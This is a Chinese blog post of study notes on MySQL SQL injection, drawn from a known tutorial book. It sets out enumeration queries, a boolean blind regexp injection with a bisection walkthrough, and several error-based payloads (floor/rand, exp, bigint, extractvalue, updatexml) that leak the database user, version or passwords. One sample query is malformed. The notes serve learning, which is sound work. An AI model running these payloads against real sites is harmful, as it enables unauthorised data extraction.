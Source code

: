 ```yaml
---
layout:     post
title:      《sql注入天书》基础知识梳理
subtitle:   上古bug
date:       2019-09-04
author:     ethan-zhou
header-img: img/post-bg-re-vs-ng2.jpg
catalog: true
tags:
    - sql
---
```


P.S.本文整理自《sql注入天书》，部分内容摘抄自这本书，加以小修改，和一些注解，记录下自己在学习过程中遇到的坑。

---
# 数据库

## 关于系统数据库`information_schema`
所有数据库：`select schema_name from information_schema.schemata;`
xxx数据库里的所有数据表：`select table_name from information_schema.tables where table_schema="xxx";`
xxx表里面所有列：`select column_name from information_schema.columns where table_name="xxx";`

# 语法

## 几种注释
1. `#bla...`
2. `bla--+blabla...`
这里`--`的作用与`#`基本相同，不同的是`--`后面必须有一个空格，众所周知，在url编码里，空格常被`+`代替为了避免空格被地址栏忽略，可能就是我们把空格打成`+`（我猜的）。
3. `/*bla...*/`

## 整型列的查询不需要闭合单引号
sql查询时如果要判断某个整数列比如`id`为某个数时，引号不需要闭合，`select *** from *** where id=1`，`select *** from *** where id="1"`，`select *** from *** where id="1'"`所得到的结果是一样的！

# 函数

## 系统函数
几个常用函数:
1. `version()`——MySQL 版本
2. `user()`——数据库用户名
3. `database()`——数据库名
4. `@@datadir`——数据库路径
5. `@@version_compile_os`——操作系统版本


## 字符串

### 连接
1. `concat(str1,str2,...)`——没有分隔符地连接字符串
2. `concat_ws(separator,str1,str2,...)`——含有分隔符地连接字符串
3. `group_concat(str1,str2,...)`——连接一个组的所有字符串,并以逗号分隔每一条数据说着比较抽象,其实也并不需要详细了解,知道这三个函数能一次性查出所有信息就行了。

### 截断
以下所有字符参数可以为sql查询语句
1. left(a,b)从左侧截取 a 的前 b 位
2. mid(a,b,c) 或者 substr(a,b,c)从 b 位置开始,截取字符串 a 的 c 长度。
3. ascii() 或者 ord() 将字符转换为ascii码。

### 检查是否匹配正则表达式
```sql
字符串 regexp '正则表达式'
```


## sql注入

### 基于正则的布尔盲注

#### 如何返回正则匹配结果
判断第一个表名的第一个字符是否是a-z中的字符,其中blind_sqli是假设已知的库名。
```sql
?id=1 and 1=(select 1 from information_schema.tables where table_schema="blind_sqli" and table_name regexp '^[a-z]' limit 0,1)--+
```
如果存在`table_name`符合要求那么`limit 0,1`就会将结果变成符合要求的第一个表，经过`select 1`这一列，会返回`1`进而与左边相等。
而如果没有符合要求的表名，那么右边就会是`empty set`了，与左边不想等。
同时，由于每个数据库会有多个表，如apps与access就都以a开头，那么我怎么知道以a开头的有几个呢？只需调整为`limit 1,1`看看能否成功选取匹配的第二张表名即可。

#### 猜表名的过程——二分
以下是猜表名第一位的过程中，前文sql语句中正则表达式的变化及查询的返回结果。
```
^[a-z]->true	#说明是字母
^[a-m]->false	#说明在n-z里
^[n-t]->false	#说明在u-z里
^[u-w]->true	#说明在u-w里
^[u-v]->false	#说明是w

接下来按类似方法尝试
^w[a-z]
...以此类推
```

### 基于报错的 SQL 盲注
```sql
Select 1,count(*),concat(0x3a,0x3a,(select user()),0x3a,0x3a,floor(rand(0)*2))a from information_schema.columns group by a;
```
> 注释：
> 这里的`concat(0x3a,0x3a,(select user()),0x3a,0x3a,floor(rand(0)*2))a`意思其实是跟`concat(0x3a,0x3a,(select user()),0x3a,0x3a,floor(rand(0)*2)) as a`一样的！
> 这种注入方法原理：[https://blog.csdn.net/qq_35544379/article/details/77453019](https://blog.csdn.net/qq_35544379/article/details/77453019)

//explain:此处有三个点,一是需要 concat 计数,二是 floor,取得 0 or 1,进行数据的重复,三是 group by 进行分组,但具体原理解释不是很通,大致原理为分组后数据计数时重复造成的错误。也有解释为 mysql 的 bug 的问题。但是此处需要将 rand(0),rand()需要多试几次才行。
以上语句可以简化成如下的形式。
```sql
select count(*) from information_schema.tables group by concat(version(),floor(rand(0)*2))
```
如果关键的表被禁用了,可以使用这种形式
```sql
select count(*) from select !1) group by (select 1 union select null union concat(version(),floor(rand(0)*2))
```
如果 rand 被禁用了可以使用用户变量来报错
```sql
select min(@a:=1) from information_schema.tables group by concat(password,@a:=(@a+1)%2)
```
---
```sql
select exp(~(select * FROM(SELECT USER())a))
```
//double 数值类型超出范围
//Exp()为以 e 为底的对数函数;版本在 5.5.5 及其以上
可以参考 exp 报错文章:[http://www.cnblogs.com/lcamry/articles/5509124.html](http://www.cnblogs.com/lcamry/articles/5509124.html)
```sql
select !(select * from (select user())x) -(ps:这是减号) ~0
```
//bigint 超出范围;~0 是对 0 逐位取反,很大的版本在 5.5.5 及其以上
20Mysql 注入---sqlilabs---lcamry
可以参考文章 bigint 溢出文章 [http://www.cnblogs.com/lcamry/articles/5509112.html](http://www.cnblogs.com/lcamry/articles/5509112.html)
```sql
select extractvalue(1,concat(0x7e,(select @@version),0x7e));
```
//mysql 对 xml 数据进行查询和修改的 xpath 函数,xpath 语法错误
```sql
select updatexml(1,concat(0x7e,(select @@version),0x7e),1);
```
//mysql 对 xml 数据进行查询和修改的 xpath 函数,xpath 语法错误
```sql
select * from (select NAME_CONST(version(),1),NAME_CONST(version(),1))x;
```
